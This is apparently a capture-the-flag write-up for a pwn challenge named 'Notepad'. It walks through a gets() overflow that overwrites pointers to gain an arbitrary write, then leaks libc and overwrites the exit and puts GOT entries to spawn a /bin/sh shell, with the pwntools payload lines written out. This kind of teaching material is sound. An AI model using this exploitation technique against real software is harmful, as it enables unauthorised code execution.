




# Notepad



This is my personal favourite challenge because of its simplicity and how much stuff I have to cram my payload with



Here is the Ghidra decompilation

```c

void main(void)

{
  undefined8 extraout_RDX;
  long lVar1;
  char *inp;
  EVP_PKEY_CTX *ctx;
  long in_FS_OFFSET;
  char input [16];
  int numBytes;
  undefined8 *message;
  char *buffer;
  undefined8 canary;
  
  canary = *(undefined8 *)(in_FS_OFFSET + 0x28);
  setup();
  numBytes = 0x10;
  message = (undefined8 *)malloc(0x100);
  *message = 0x6262736b6e616874;
  *(undefined *)(message + 1) = 0;
  buffer = input;
  puts("Enter your note: ");
  gets(input);
  puts("Received");
  inp = input;
  memcpy(buffer,inp,(long)numBytes);
  puts((char *)message);
  exitProgram();
}
```

By the way, I removed some dead code in the decompilation. It seems like Ghidra was fusing two functions into one(?).

Anyways, let me explain what the program is doing. I will only talk about relevant parts.

```c
numBytes = 0x10;
message = (undefined8 *)malloc(0x100);
*message = 0x6262736b6e616874;
*(undefined *)(message + 1) = 0;
buffer = input;
```

The program initialises some variables. The message here is `thanksbb` btw. These variables are used later to print out a goodbye message.

```c
puts("Enter your note: ");
gets(input);
puts("Received");
```

The program takes in our input. There is an obvious buffer overflow vulnerability here.

I will talk about it more later.

```c
inp = input;
memcpy(buffer,inp,(long)numBytes);
puts((char *)message);
```

Here, the program uses `memcpy` to copy the contents of our message to a seperate `buffer` variable. Finally, it prints out the `thanksbb` mentioned before.

```c
exitProgram();
```

The program `exit()`s. This prevents us from doing any Return-Oriented Programming as we can't even `return` in the first place.

### Vulnerabilities

Do note that there is no canary and PIE. However, NX is enabled.

We only have one vulnerability, which is the buffer overflow with `gets()`. However, since the program immediately `exit()`s, we can't use ROP to solve it.

Let us look at what variables are after our `input`. These are the variables that we can overwrite.

```c
char input [16];
int numBytes;
undefined8 *message;
char *buffer;
```

So, we can overwrite `numBytes`, `message`, and `buffer`. `numBytes` doesn't really matter as it is the number of bytes to `memcpy()`. `message` and `buffer` is going to be the main way we get our shell.

If you were to enter in a bunch of 'A's, you may notice the program segfaults.



This is because of the `memcpy()`.

```c
memcpy(buffer,inp,(long)numBytes);
```

After we overflowed `input`, it also overflowed into `message` and `buffer`. Since `buffer` is overwritten to `0x4141414141414141` (`aaaaaaaa` in hex), the target that we are `memcpy()`ing to is under our control, giving us an arbitrary write-what-where primitive.



This is our main vulnerability

### Part 1: Leaking

Idk why I am even splitting this into parts when its only two payloads.

Anyways, in order to get shell we are going to have to call some form of `system('/bin/sh')` as we are going to need to leak Libc Base.

This is actually pretty easy.

Remember when I said we could overwrite `message` as well? `message` is a pointer to a character array, which will be printed out with `puts()`. Since we can overwrite `message`, if we were to point it to lets say setvbuf GOT, then `puts()` will print out the address of `setvbuf()` in PLT. This gives us our Libc Base.

### Part 2: Overwriting

Leaking our libc base was useless since the program exited immediately either ways, so we have to stop that.

Luckily, the program only has Partial RELRO protection, meaning we can overwrite the GOT.

If we were to overwrite the GOT entry for `exit()` to `main()` for example, then the program would call `main()` instead of `exit()`. This allows us to enter in as many payloads as we want.

As such, we will overwrite `exit()` GOT as well as leak Libc base in one payload:

```py
payload = pack(elf.symbols['main']).ljust(16) + pack(context.bytes) + pack(elf.got['puts']) + pack(elf.got['exit'])
```

The first `pack(elf.symbols['main']).ljust(16)` is the thing that we will overwrite with. This is because it is at the start of `inp`. I added a `ljust(16)` to pad it since thats the size of the `input` buffer.

Next, `pack(context.bytes)` is going to be overwritten into `numBytes`. Since we don't want to write our entire payload into exit GOT, we will only write 8 bytes there.

After that is `pack(elf.got['puts'])`. This will be overwritten into `message`, which means that the line `puts((char *)message);` will print out the address of puts PLT and allow us to calculate Libc base.

Finally, `pack(elf.got['exit'])` will be overwritten into `buffer`, which is what we the `memcpy()` will write into. This means that our `pack(elf.symbols['main'])` will be written there, making the program restart whenever it tries to call `exit()`. This allows us to enter in our second payload.

```py
p.recvuntil(b'Received\n')
putsleak = u64((p.recvline().strip()).ljust(8, b'\x00')) * 0x100 + 0x20
base = putsleak - libc.symbols['puts']

print(f"Got Libc Base: {hex(base)}")
```

This is the code for receiving the Libc base btw.

Bogos binted bet no one is reading this.

### Part 3: Getting shell

Now we need to find a GOT address to overwrite `system()` into.

Ideally, it would only have one argument, with the variable being something we can control.

Coincidentally, the perfect line for this is 

```c
puts((char *)message);
```

So, this means we have to overwrite puts GOT with `system()`, then overwrite `message` with `/bin/sh`.

Here is the second payload:

```py
payload = pack(base + libc.symbols['system']).ljust(16) + pack(context.bytes) + pack(base + next(libc.search(b'/bin/sh'))) + pack(elf.got['puts'])
```

This is the same as before.

`pack(base + libc.symbols['system']).ljust(16)` is the thing we will overwrite with alongside the padding.

`pack(context.bytes)` is the numBytes.

`pack(base + next(libc.search(b'/bin/sh')))` will be overwritten into `message` so it will call `system('/bin/sh')`.

`pack(elf.got['puts'])` is our target that we will overwrite into.

What a peak simple challenge that only requires two packed to the max payload.

Full soltion can be found in `notepad.py`